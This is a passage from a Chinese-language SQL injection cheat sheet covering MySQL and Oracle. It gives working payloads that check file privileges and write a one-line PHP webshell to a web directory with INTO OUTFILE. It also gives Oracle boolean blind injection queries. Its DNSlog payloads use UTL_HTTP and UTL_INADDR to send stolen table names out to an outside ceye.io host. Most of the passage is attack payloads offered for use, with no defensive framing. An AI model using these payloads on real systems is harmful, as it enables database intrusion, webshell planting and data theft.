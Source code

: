  |     参数     |                                       描述 |
  | :----------: | -----------------------------------------: |
  | XML_document | String格式，为XML文档对象的名称，文中为Doc |
  | XPath_string |                          Xpath格式的字符串 |
  |  new_value   |     String格式，替换查找到的符合条件的数据 |

- mysql读取写入文件

  必备条件：

  ​		读：file权限必备

  ​		写：1.绝对路径、2.union可以适用、3.可以使用""

  判断是否具有读写权限

  ​		and (select count(*) from mysql.user)>0/\*

  ​		and (select count(file_priv) from mysql.user)>0/\*

  写文件：

  ​		into outfile写文件

  ```mysql
  union select 1,2,3,char(10进制或16进制的一句话木马代码),5,6,7,8,9 into outfile 'D:\web\shell.php'/*
  
  union select 1,2,3,load_file('d:\web\shell.jpg'),5,6,7,8,9 into outfile 'D:\web\shell.php'/*
  ```

### Oracle注入进阶技巧

##### 一般盲注：

- 布尔型盲注：

  ```sql
  获取表的个数
  and (select count(table_name) from user_tables)>1-- 
  获取第一个表的表名长度
  and (select length(table_name) from user_tables where rownum=1)>1-- 
  获取第一个表的第一个字符的ASCII码值
  and ascii(substr((select table_name from user_tables where rownum=1),1,1))>80-- 
  ```

- DNSlog注入(要能访问外网)：

  ```sql
  UTL_HTTP.REQUEST型
  union select null,UTL_HTTP.REQUEST((select table_name from user_tables where rownum=1)||'.5nj58o.ceye.io'),null from dual -- 
  
  UTL_INADDR.GET_HOST_ADDRESS型
  union select null,UTL_INADDR.GET_HOST_ADDRESS((select table_name from user_tables where rownum=1)||'.5nj58o.ceye.io'),null from dual -- 
  ```

